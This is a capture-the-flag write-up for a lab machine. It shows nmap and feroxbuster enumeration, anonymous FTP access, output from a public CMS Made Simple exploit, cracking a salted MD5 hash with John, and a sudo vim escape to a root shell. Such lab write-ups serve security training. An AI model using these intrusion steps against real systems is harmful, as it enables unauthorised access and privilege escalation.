 # Introduction

We first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx simplectf.thm
```

# Enumeration

We do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV simplectf.thm
```

We got this result
```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# FTP (port 21)
let's try to connect as anonymous
```bash
$ ftp simplectf.thm
Connected to simplectf.thm.
220 (vsFTPd 3.0.3)
Name (simplectf.thm:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

It works ! Not let's list the file with a ls -la
```bash
ftp> ls -la
229 Entering Extended Passive Mode (|||47710|)
```

It's not working, it says it is in passive mode so we need to disable it by doing the command PASSIVE
```bash
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
```

If we go in pub folder, we found a file name "ForMitch.txt" who contains this hint
```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

Seems we could try a bruteforce attack on the SSH port with the mitch user\
Let's see the website and we'll try further

# HTTP (port 80)
Let's see the website !\
First, we found a robots.txt
```
#
# "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $"
#
#   This file tells search engines not to index your CUPS server.
#
#   Copyright 1993-2003 by Easy Software Products.
#
#   These coded instructions, statements, and computer programs are the
#   property of Easy Software Products and are protected by Federal
#   copyright law.  Distribution and use rights are outlined in the file
#   "LICENSE.txt" which should have been included with this file.  If this
#   file is missing or damaged please contact Easy Software Products
#   at:
#
#       Attn: CUPS Licensing Information
#       Easy Software Products
#       44141 Airport View Drive, Suite 204
#       Hollywood, Maryland 20636-3111 USA
#
#       Voice: (301) 373-9600
#       EMail: cups-info@cups.org
#         WWW: http://www.cups.org
#

User-agent: *
Disallow: /


Disallow: /openemr-5_0_1_3 
#
# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
#
```

This could be interesting, maybe there is an user named mike ? in addition of mitch ?\
We do a feroxbuster to enumarate directories and found a /simple directory

```bash
$ feroxbuster -u http://simplectf.thm/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```bash
301      GET        9l       28w      315c http://simplectf.thm/simple => http://simplectf.thm/simple/
301      GET        9l       28w      321c http://simplectf.thm/simple/admin => http://simplectf.thm/simple/admin/
```

So we figure out by visiting this url that there is an webapp named CMS Made Simple in v2.2.8
<img width="807" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/49b86b59-a666-4f90-baec-db916a14d9f9">

In googling the version, we found that this is vulnerable to a RCE (https://www.exploit-db.com/exploits/46635)

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[*] Try: 0c01f4468bd75d7a84c7eb73846e8d96

```
$ cat hashmd5 
0c01f4468bd75d7a84c7eb73846e8d96$1dac0d92e9fa6bb2
```

```
$ john hashmd5 --wordlist=/usr/share/wordlists/rockyou.txt --form=dynamic='md5($s.$p)'
Using default input encoding: UTF-8
Loaded 1 password hash (dynamic=md5($s.$p) [128/128 ASIMD 4x2])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
secret           (?)     
1g 0:00:00:00 DONE (2023-08-18 15:26) 100.0g/s 168000p/s 168000c/s 168000C/s 123456..kenny
Use the "--show --format=dynamic=md5($s.$p)" options to display all of the cracked passwords reliably
Session completed.
```

# User flag

# Root flag
We first try to look at sudo rights we can have
```bash
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

So we can execute vim binary as root without any passwd\
We have our privilege escalation : we can see that vim with sudo right is vulnerable to privesc (https://gtfobins.github.io/gtfobins/vim/#sudo) \
```bash
mitch@Machine:~$ sudo /usr/bin/vim -c '!/bin/bash'

root@Machine:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Machine:~#
```
